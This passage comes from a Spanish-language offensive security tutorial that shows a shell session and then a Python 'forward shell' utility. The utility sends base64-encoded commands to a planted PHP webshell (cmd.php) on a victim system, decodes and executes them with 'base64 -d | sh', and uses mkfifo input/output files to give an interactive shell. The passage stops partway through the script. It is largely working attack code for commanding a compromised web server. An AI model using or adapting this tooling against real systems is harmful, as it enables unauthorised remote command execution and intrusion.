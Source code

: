 ```go
┌─[k4lelv@parrot]─[~/Desktop]
└──╼ $whoami
k4lelv
┌─[k4lelv@parrot]─[~/Desktop]
└──╼ $sudo su
[sudo] password for k4lelv: 
┌─[root@parrot]─[~/Desktop]
└──╼ #
┌─[k4lelv@parrot]─[~/Desktop/example]
└──╼ $
```

El único problema es que el fichero `output` va almacenando el resultado de los comandos anteriormente ejecutados desde consola introducidos en `input`, por lo que por cada vez que abramos el `output`, veremos este histórico.

Aún así, está todo pensado... no os preocupéis. ¿Cuál es la idea ahora?, pues aprovechar este principio para construir una utilidad en Python la cual nos permita comunicarnos, mediante la webshell previamente creada, con estos ficheritos `input` y `output` depositados sobre el sistema víctima explotando para ello la utilidad `mkfifo`.

Haríamos uso de la siguiente utilidad en Python3:

```python
#!/usr/bin/python3

import requests, time, threading, pdb, signal, sys
from base64 import b64encode
from random import randrange

class AllTheReads(object):
	def __init__(self, interval=1):
		self.interval = interval
		thread = threading.Thread(target=self.run, args=())
		thread.daemon = True
		thread.start()

	def run(self):
		readoutput = """/bin/cat %s""" % (stdout)
		clearoutput = """echo '' > %s""" % (stdout)
		while True:
			output = RunCmd(readoutput)
			if output:
				RunCmd(clearoutput)
				print(output)
			time.sleep(self.interval)

def RunCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
	payload = {
        	'cmd' : 'echo "%s" | base64 -d | sh' %(cmd)
		}
	result = (requests.get('http://127.0.0.1/cmd.php', params=payload, timeout=5).text).strip()
	return result

def WriteCmd(cmd):
	cmd = cmd.encode('utf-8')
	cmd = b64encode(cmd).decode('utf-8')
	payload = {
		'cmd' : 'echo "%s" | base64 -d > %s' % (cmd, stdin)
	}
	result = (requests.get('http://127.0.0.1/cmd.php', params=payload, timeout=5).text).strip()
	return result

```